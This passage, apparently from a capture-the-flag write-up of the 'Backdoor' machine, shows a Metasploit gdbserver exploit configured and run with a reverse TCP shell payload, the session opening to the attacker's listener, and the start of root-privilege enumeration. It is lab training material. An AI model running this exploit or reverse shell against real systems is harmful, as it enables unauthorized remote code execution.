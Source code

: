 
I’ll configure it by setting the `rhosts`, `rport`, and `lhost`:

    
    
    msf6 exploit(multi/gdb/gdb_server_exec) > options
    
    Module options (exploit/multi/gdb/gdb_server_exec):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXE_FILE  /bin/true        no        The exe to spawn when gdbserver is not attached to a process.
       RHOSTS    10.10.11.125     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
       RPORT     1337             yes       The target port (TCP)
    
    
    Payload options (linux/x64/shell_reverse_tcp):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  tun0             yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       1   x86_64 (64-bit)
    

Running it returns a shell:

    
    
    msf6 exploit(multi/gdb/gdb_server_exec) > run
    
    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] 10.10.11.125:1337 - Performing handshake with gdbserver...
    [*] 10.10.11.125:1337 - Stepping program to find PC...
    [*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
    [*] 10.10.11.125:1337 - Executing the payload...
    [*] Command shell session 1 opened (10.10.14.6:4444 -> 10.10.11.125:58140 ) at 2022-04-20 20:38:51 +0000
    
    id
    uid=1000(user) gid=1000(user) groups=1000(user)
    

## Shell as root

### Enumeration

Looking through the processes earlier, another one jumps out. From a shell,
it’s easier to see:

    
    
    user@Backdoor:/home/user$ ps auxww
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    ...[snip]...
    root         853  0.0  0.0   2608  1828 ?        Ss   16:43   0:05 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
    ...[snip]...
    